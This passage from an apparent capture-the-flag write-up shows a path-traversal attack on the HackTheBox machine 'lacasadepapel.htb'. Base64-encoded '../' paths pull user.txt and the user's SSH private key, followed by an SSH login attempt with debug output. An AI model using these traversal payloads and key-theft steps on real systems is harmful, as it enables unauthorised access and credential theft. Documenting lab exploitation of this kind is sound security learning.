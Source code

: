 And yep, it's doing a GET request to the `server/file/Base64EncodedPath`

So let's try to retrieve the user.txt flag over berlin home folder
```
https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vdXNlci50eHQ=
```
And we have the user.txt flag.

After trying to access the root flag we get an error as expected:
```root.txt
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: EACCES: permission denied, open &#39;/home/berlin/downloads/../../../../../../../root/root.txt&#39;<br> &nbsp; &nbsp;at Object.fs.openSync (fs.js:646:18)<br> &nbsp; &nbsp;at Object.fs.readFileSync (fs.js:551:33)<br> &nbsp; &nbsp;at /home/berlin/server.js:32:15<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/berlin/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/berlin/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/berlin/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/berlin/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/berlin/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at param (/home/berlin/node_modules/express/lib/router/index.js:354:14)<br> &nbsp; &nbsp;at param (/home/berlin/node_modules/express/lib/router/index.js:365:14)</pre>
</body>
</html>
```

We go to dali's home folder and we findout some .ssh folder, which we cannot acces, but let's try to download the content anyways. Forget it, I'm stupid, there's also a .ssh folder in berlin's home:
```
../../../../../../../home/berlin/.ssh/id_rsa
../../../../../../../home/berlin/.ssh/id_rsa.pub

https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLnNzaC9pZF9yc2E=
https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLnNzaC9pZF9yc2EucHVi
```

Got it!

Let's now connect through ssh with our new id_rsa private key:
```
# To ssh via pem file (which normally needs 0600 permissions):
ssh -i <pemfile> <user>@<host>

chmod 0600 files/id_rsa
ssh -i id_rsa berlin@$(cat ip)
```

Not that easy, so let's take a look to the debug info of ssh server
```
OpenSSH_8.2p1 Ubuntu-4ubuntu0.11, OpenSSL 1.1.1f  31 Mar 2020
debug1: Reading configuration data /home/lotape6/.ssh/config
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 10.10.10.131 [10.10.10.131] port 22.
debug1: Connection established.
debug1: identity file /home/lotape6/.ssh/readme type -1
debug1: identity file /home/lotape6/.ssh/readme-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
debug1: Remote protocol version 2.0, remote software version OpenSSH_7.9
debug1: match: OpenSSH_7.9 pat OpenSSH* compat 0x04000000
debug1: Authenticating to 10.10.10.131:22 as 'lotape6'
debug1: SSH2_MSG_KEXINIT sent
```